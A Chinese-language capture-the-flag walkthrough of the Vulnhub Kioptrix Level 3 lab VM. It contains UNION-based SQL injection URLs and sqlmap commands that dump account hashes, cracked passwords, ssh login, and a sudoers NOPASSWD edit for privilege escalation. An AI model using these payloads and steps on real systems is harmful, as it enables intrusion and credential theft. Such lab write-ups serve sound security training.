 ```yaml
---
title: Vulnhub-Kioptrix_Level3
date: 2025-2-25 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息枚举

## 主机发现

```
netdiscover -i eth0 -r 192.168.137.0/24
```

![image-20250320011732744](././././././././././Kioptrix%20Level3/image-20250320011732744.png)

## nmap

![image-20250320011906500](././././././././././Kioptrix%20Level3/image-20250320011906500.png)

# WEB服务

![image-20250320014612476](././././././././././Kioptrix%20Level3/image-20250320014612476.png)

在此页面点击图片跳转到的是kioptrix3.com，将域名解析添加到/etc/hosts中去就可以正常显示图片

![image-20250320014937046](././././././././././Kioptrix%20Level3/image-20250320014937046.png)

当前页面有个排序功能，尝试对id进行sql注入![image-20250320015113210](././././././././././Kioptrix%20Level3/image-20250320015113210.png)

出现保存，说明存在注入点，手注测试之后为数字型闭合

## SQL注入

### 手注

判断列数

```
http://kioptrix3.com/gallery/gallery.php?id=0 order by 6--+&sort=photoid#photos
```

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,2,3,4,5,6--+&sort=photoid#photos
```

查询库名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,database(),3,4,5,6--+&sort=photoid#photos
```

查询表名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+&sort=photoid#photos

表名：
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

查询列名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+&sort=photoid#photos

列名：
userid,username,password,usertype,firstname,lastname,email,datejoined,website,issuperuser,photo,joincode
```

查询内容

```
http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,group_concat(id,"~",username,"~",password),3,4,5,6 from dev_accounts --+&sort=#photos

内容
dreg~0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
loneferret~5badcaf789d3d1d09794d8f021f40f0e(starwars)
```

## sqlmap

```
sqlmap -r sql --batch --dbs -p id
```

![image-20250320021618540](././././././././././Kioptrix%20Level3/image-20250320021618540.png)

```
sqlmap -r sql --batch -D gallery --tables -p id
```

![image-20250320021634279](././././././././././Kioptrix%20Level3/image-20250320021634279.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts --columns -p id
```

![image-20250320021806341](././././././././././Kioptrix%20Level3/image-20250320021806341.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts -C username,password -p id --dump
```

![image-20250320021851115](././././././././././Kioptrix%20Level3/image-20250320021851115.png)

## ssh连接

尝试使用得到的账号密码进行连接

```
ssh loneferret@192.168.137.133  -oHostKeyAlgorithms=+ssh-rsa
```

loneferret用户目录下有checksec.sh和CompanyPolic.README

![image-20250320022424144](././././././././././Kioptrix%20Level3/image-20250320022424144.png)

意思就是使用ht编辑器来编辑文档，ht编辑器有sudo权限

那么就只需要在/etc/sudoers中加入该用户就可以了

![image-20250320022816840](././././././././././Kioptrix%20Level3/image-20250320022816840.png)

解决方法

```
echo $TERM
export TERM=xterm
echo $TERM
```

ht编辑器最下面这行分别对应F1-F10，搜索/etc/sudoers/进行编辑

![image-20250320023044704](././././././././././Kioptrix%20Level3/image-20250320023044704.png)

添加

```
loneferretALL=(ALL) NOPASSWD:ALL 
```

即可成功提权

![image-20250320023340077](././././././././././Kioptrix%20Level3/image-20250320023340077.png)

